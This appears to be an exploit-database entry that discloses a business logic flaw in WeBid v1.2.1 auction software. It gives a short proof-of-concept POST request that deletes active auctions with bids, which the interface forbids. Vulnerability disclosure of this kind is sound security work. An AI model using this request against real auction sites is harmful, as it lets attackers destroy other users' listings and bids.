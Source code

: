 # Exploit Title: Webid v1.2.1 - Business Logic Error(BLE)
## Date: 2/1/2024
## Vendor Homepage: https://sourceforge.net/projects/simpleauction/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: Webid
## Version: v1.2.1
## Exploit Description:
## Webid v1.2.1 suffers from BLE - Business Logic Error Vulnerability allowing attackers to delete an active auction that has bids that can not be deleted in UI.

## ---------------------------------POC-----------------------------
```
POST /yourauctions.php HTTP/1.1
...

csrftoken=78899377e1baac0dedb6f939e65ffad9&O_delete%5B%5D=7(CHANGE HERE)&action=delopenauctions&Submit=Process+selected+auctions
```